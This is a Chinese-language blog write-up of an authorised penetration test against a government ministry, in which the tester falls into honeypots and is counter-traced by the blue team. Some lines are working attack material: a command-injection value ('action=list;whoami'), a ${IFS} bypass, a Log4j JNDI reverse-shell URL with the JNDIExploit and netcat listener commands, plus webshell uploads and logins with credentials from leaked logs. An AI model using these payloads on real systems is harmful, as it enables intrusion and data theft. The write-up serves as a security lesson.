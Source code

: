 ```yaml
---
title: 记一次对某部委的渗透测试
date: 2025-01-25 23:54:48
tags:
---
```


这周接到上面的通知去给某政府单位进行资产梳理和渗透测试，这个单位的安服非常有实力，曾经成功抵御了某带编号的境外apt组织的攻击并给出溯源报告。一开始领导让我去搞这个项目的时候我是很抵触的，毕竟aptxx都打不穿的单位你让我去是不是有点太幽默。转念一想，有机会见识一下顶尖蓝队和企业安全策略也没啥不好的。我就不信邪了看看这怎么个事——当然最后结果也是不出所料的被反清得裤衩都不剩了。以下是整个测试过程的一些印象比较深刻的片段。本文发布已经过目标单位的授权，涉及到的信息图片等均厚码处理，文章内容仅供技术交流使用

![](记一次对某部委的渗透测试/image-20250125234924093.png)

1.前期按部就班做了一些针对性的资产梳理和收集工作，备案反查，子域，ip网段资产，js采集。很快就在某子域下发现一个?str=传参的命令执行漏洞，用最简单的${IFS}就可以绕过过滤执行命令，并且有回显。这个蜜罐还是很明显的，首先洞太突兀了，一级子域下边留这么一个脑残的命令执行到现在还不修我是不信的。第二个，这个str参数在这里没有任何意义，正常用户点击这个web地址的时候用不到，他也实现不了任何业务功能。最后f12看一下页面加载了很多第三方js文件，这也是罐子的一大特征，遂马上跑路，没有中招 

2.利用酷酷习题大法，在tg泄露的几百万行日志.txt中找到了此部委某处资产的账号密码，成功登录

![](记一次对某部委的渗透测试/image-20250125234943243.png)

看起来系统似乎还是挺老的，没有waf，先尝试寻找sql注入，挨个点击可能和数据库交互的页面功能区域，把burp里请求流量全部保存联动sqlmap -r risk=5 level=3开跑，无果，尝试手注依然无果。想要进行后台文件上传，然后发现根本就没有上传点，屋檐了  
继续测试，找到鉴权的api接口，在/api/v2/auth/checkUser/usrid.php 这里，如图，想要垂直越权一下获取管理员权限

![](记一次对某部委的渗透测试/image-20250125235002962.png)

猜测管理员用户名就是admin，passwordComplex参数只要输对了验证码就是0，不用管。temp和最重要的加密的那个_Monster到底是啥玩意，(我真没见过谁家鉴权参数叫这个名字的)，怎么生成的，实在想不明白。想翻阅js看看在前端有无相关的参数的接口，加密了，本人js逆向就是一坨，就在想放弃找越权的时候网站出现了卡顿，这个代码也挺神经的，如果src获取图床url的时候没有成功，会在返回里显示“出现xxx故障错误代码xxx请联系xxxx(软件开发商联系方式)”，6。然后交给社工哥顺利的找到了此套软件的源码

审计鉴权代码发现其实是用一个默认密钥+时间戳+用户名的方式生成了那个_Monster参数，temp参数和越权没关系，系统管理员和普通用户都是一样的，成功通过接口修改_Monster和id的值以admin身份登录入系统

![](记一次对某部委的渗透测试/image-20250125235050598.png)

管理员后台的功能就比较多了，有上传点，而且谢天谢地没有任何对文件后缀的检验，就是上传过后不会回显路径。这个问题不大因为源码都搞到手了，看源码$uploadPath就行。然后就是XG拟态生成器生成免杀webshell上传连接后接管服务器，哥斯拉插件绕过disable_fouction丝滑小连招

![](记一次对某部委的渗透测试/image-20250125235058874.png)

后续通过shell上线c2的时候渗透内网的内容因保密需要无法透露。这个资产打到的只是该部委的一处边缘网段，内网机器虽然挺多但是并非核心生产环境，也没有敏感资料。然而这基本上就是我的全部成绩了，后续就是蓝队高手四擒年某的故事  
  
3.扫到主域名下某路径back.zip内容，一打开看居然是网站源码，各个路径都能对上。审计源码内容，这个info.php的漏洞点代码如下

![](记一次对某部委的渗透测试/image-20250125235109497.png)

有个filter_var()的函数进行过滤，白名单预定义了用户操作，FILTER_SANITIZE_STRING是 PHP 中的一个过滤器，清洗用户字符串输入的 HTML 标签和特殊字符来防止xss，但是这俩过滤都是平时ctf里绕过烂了的东西，/info.php?action=list;whoami 直接命令执行。当时我愣了一下，这个据说抵御过aptxx组织攻击的单位这么简单就搞到主站rce了？转念一想也不是不可能，apt组织写各种免杀和加载器厉害，打突破都是靠钓鱼，我字典好正好扫到.zip直接白盒秒了，遂传参狠狠的写入shell，疑似有宝塔文件锁一类的东西文件无法落地，就执行命令nc反弹了一下到我vps上  

后来我才知道这堆byd安服大玉想象力之丰富，那个back.zip就是他们故意放到服务器上的，压缩包里info.php的内容也是故意这么写的，实际上真正的info.php根本不长这样，传参管道符或者分号的时候后端跟进的代码不是shell_exec()，而是一个他们自研的蜜罐接口，就看哪个冤种发送action=list;，直接标红ip然后态感设备一顿响，我后续执行的所有操作几个值班的蓝队哥看得一清二楚。nc反弹的时候vps地址也漏了。溯到ip一波反清各类c2框架的端口，cs的50050和viper的60000。正好我是超级懒人，接收反弹shell，漏扫，cs和viper和daybreak和灯塔都部署在这台机器上面，而且全都是弱口令，蓝队哥用day或者爆破，拿到了我viper的账号密码，并且不知道通过什么手段经过viper的后台直接拿到了我服务器的ssh账号密码？我ssh连服务器的时候没挂代理，人家在服务器上翻一下登录日志，酒店公网ip遂暴露 

4.具体过程无法透露，通过某设备0day拿到生产环境数据库账号密码，刚刚连上就触发了数据库日志审计秒掐端口禁止外连，最后的危害就是截了张图大概知道了他有哪几个表，数据一点都没能泄露，没脾气。只能安慰自己拔线拔得这么快起码证明没踩到罐子

![](记一次对某部委的渗透测试/image-20250125235140892.png)

 5.整理资产看到某公网oa系统，正好前段时间审了这个oa的sql注入0day，发送poc

![](记一次对某部委的渗透测试/image-20250125235148977.png)

![](记一次对某部委的渗透测试/image-20250125235152348.png)

6.扫到了公网上部署的nacos系统，并且工具检测出来有Hessian反序列化，拿🦶想都知道这种单位不可能傻到公网上放nacos还留着nday不修，一眼罐子，于是没有深入
测试结束过后问了一句，然后人家说这个还真特么不是罐子，只是资产归属不属于他们单位负责，气死我了

7.接下来连续的几天都一点成果没有，对着搜集到的一堆资产扫描器猛扫，连个debug的信息泄露都扫不到。挂burp手动测试功能点，测了半天也没有，源码泄露也找不到，那些个cms也都是自研的或者闭源的，手上无day可打，黑盒真的太难了。转变思路重新收集了一下资产信息拓展攻击面。终于找到了某系统存在Log4j漏洞
使用工具JNDI-Injection-Exploit，直接
`java -jar JNDIExploit.jar -l 8888 -p 6666 -i 本机ip` 

然后`nc -lvvp 10001`开启监听  浏览器打开url访问
http://xxxx.xxxx/solr/admin/cores?action=${jndi:ldap://xxxxx:8888/Basic/ReverseShell/xxxxxx/10001
但是vps上一直收不到shell，有补丁吗？查了一下官方commit里对于Log4j漏洞的修改意见，一个是限制LDAP和RMI的访问类，还有就是
https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3
里边，对于lookup方法的修改，你想要new URI(name)处报错但是name又得被jndi正常识别，这里就只能用marshalsec方法反弹shell了，因为marshalsec构造LADP服务的时候不走那个handle URL的语句块，不会导致解析错误。

不过这种方法复现的话挺麻烦的，要自己写一个Exploit.class放到web服务上，具体步骤看
https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ
，这里因为篇幅原因就不多说
![](6c1a39f7eb57d8b958241f3f7bbbdb70.png)

拿到shell，机器出网能直接wget下东西，无敌免杀bypass杀软顺利上线cs。这个内网比上文提到的那个重要多了，此时感觉自己非常的黑客，开始幻想自己单兵apt打穿某某部委，开心得不行

![](记一次对某部委的渗透测试/image-20250125235308704.png)

内网部分还是因为保密原因不能提，横向过程中阻力挺大，捣鼓半天一台新的机器都没横向成功。好不容易跌跌撞撞拿到了一台windows的票据，cs上线文件管理看看desktop是咋回事

![](记一次对某部委的渗透测试/image-20250125235317652.png)

在桌面文件夹发现了惊人的Powervpn.exe以及使用手册.pdf，笑嘻了。由于是exe，下载下来先看df报不报毒，df和卡巴都不报毒，丢沙箱看一下，有异常行为，但多半是误报(云沙箱经常犯病) ，感觉文件安全没问题，遂大胆运行  
后来知道这堆蓝队哥居然在内网每台办公机器的桌面都放了钓鱼vpn.exe，无敌了，他也不怕自家员工给他一顿点。并且免杀df火绒360晶核卡巴，甚至反虚拟机，vm运行弹窗提示必须物理机运行(我这种莽夫直接本机右键了，人家白多花了这么个心思)。你自己边界突破进去横向拿到的权限，在这台机器上下的文件，杀软也不报毒，这谁特么能想到是个马子。于是我那台破笔记本也被蓝队控制，然后电脑桌面文件夹里就有简历.doc

总结：花了差不多十天的渗透时间，就只拿下该部委webshell两个，其中一个为gov域名；边缘办公系统内网机器xx台，数据库半个(连上没三分钟就应急了，一条数据没看到，所以算半个)。然后被溯源到攻击服务器一台，通过反制手段拿到部署在上面的viper和cs的账号密码，以及服务器ssh账号密码。被钓鱼导致用于攻击的笔记本被蓝队上线。暴露了酒店公网ip地址，人家只是尊重我的隐私没用蓝队神秘小工具翻我设备而已，不然消费记录结合公网ip地理位置画像一下就知道我酒店门牌号是哪个了。通过笔记本桌面文件里的简历.doc获得了我的姓名手机号qq号和大头照，使用纸飞机酷酷bot轻松反查到身份证号。最后捕获到没利用成功的某oa前台sql注入一个。一句话概括，东西没打到几个底裤漏完，算了一下rating估计在0.4到0.5之间，大败而归

最后交流的时候和人家聊了一下才知道这几个蓝队哥里边有之前大厂实验室的渗透岗，意料之中，只有做过攻击队的老油条才能想出往back.zip里边塞假源码骗人进罐子这样的狠活。一方面人家太懂红队的心理了，完美预判了常见渗透流程中的每一件事情，非常合理且巧妙的在这些过程中给你挖坑。另一方面硬实力也没得说，那个监控特定参数并且能够高交互回显的蜜罐接口是人家自研的产品，自己手搓代码写出来的；绕过各路杀软的钓鱼exe也是人家自己做的免杀(今六月份的做的到现在依然能够bypass各大杀软)，以及通过viper后台拿到服务器ssh权限，这个我至今不知道他们是咋做到的。国护的时候我也拆过那些四蹲五蹲的黑店靶标，都是还没毕业的大学生，技能也只有很被动的封c段加拔线，被打穿了就在裁判那里嘴遁机关枪死不承认。但是这次某部委原厂的安全团队真是打得我没脾气，人家确实是把蓝队和企业安全这块玩明白了。现在网安方面很多文章以及研究都把重点放在了攻击的各种姿势上，往往忽略了防御其实也是一门艺术，能整出很多花样的，不仅仅只有刻板印象里龟缩起来的各种封。这次演练完了也是老老实实认识到了和行业内顶尖高手的差距，之前娱乐圈炸鱼那是心高气傲，现在发现到了高手过招的这个层次自己被别人当鱼炸了，还是得继续多看文章多学习

